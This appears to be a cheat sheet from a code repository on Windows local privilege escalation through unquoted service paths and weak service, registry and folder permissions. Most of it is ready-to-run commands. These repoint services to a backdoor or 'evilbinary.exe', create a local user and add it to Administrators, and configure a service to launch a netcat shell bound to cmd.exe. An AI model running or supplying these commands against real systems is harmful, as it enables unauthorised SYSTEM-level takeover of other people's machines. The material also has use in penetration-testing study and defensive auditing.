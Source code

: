 ### Unquoted Service Path

Technically Unquoted Service Path vulnerability is caused by the CreateProcess function in Windows operating systems which may allow unprivileged loc users to modify the affected executable file as a system privilege in order to elevate their privileged from unprivilege to system privilged.

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
If you look at the registry entry for this service with Regedit you can see the ImagePath value is:

C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
```
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Program.exe
C:\Program Files (x86)\Program Folder\A.exe
C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
```
If we can drop our malicious exe successfully on one of these paths, upon a restart of the service, Windows will run our exe as SYSTEM.In order to check the permissions of a folder
```
icacls "C:\WeakServices\Weak Service 1\service1.exe"
icacls "C:\WeakServices\Weak Service 1"
icacls "C:\Program Files (x86)\Program Folder"
icacls "C:\Program Files\Photodex\ProShow Producer\Scsiaccess.exe"
```

### Weak Service Permission



```
accesschk.exe -cv MeMe WeakService3
sc config WeakService3 binpath= "C:\Users\MeMe\Desktop\Backdoor.exe" 
sc config WeakService3 binpath= "net user MeMe MeMe@!@#123 /add" 
sc config WeakService3 binpath= "net localgroup Administrators MeMe /add" 

sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

```
### WEAK REGISTRY PERMISSIONS

```
accexxchk.exe -kvw MeMe HKLM\SYSTEM\CurrentControlSet\Services\

reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\WeakService4" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\MeMe\Desktop\evilbinary.exe" /f

sc qc WeakService4
sc stop WeakService4
sc start WeakService4

```
### Weak Folder Permissions 
weak folder permissions granting any user full permission "Everyone: (F)" to the contents of the directory and it's sub-folders. In addition, the program installs a service called "KWSService" which runs as "Localsystem", this will allow any user to escalate privileges to "NT AUTHORITY\SYSTEM" by substituting the service's binary with a malicious one
```
icacls c:\kioware_com
C:\kioware_com Everyone:(OI)(CI)(F)
               NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
               BUILTIN\Administrators:(I)(OI)(CI)(F)
               BUILTIN\Users:(I)(OI)(CI)(RX)
               BUILTIN\Users:(I)(CI)(AD)
               BUILTIN\Users:(I)(CI)(WD)
               CREATOR OWNER:(I)(OI)(CI)(IO)(F)

```
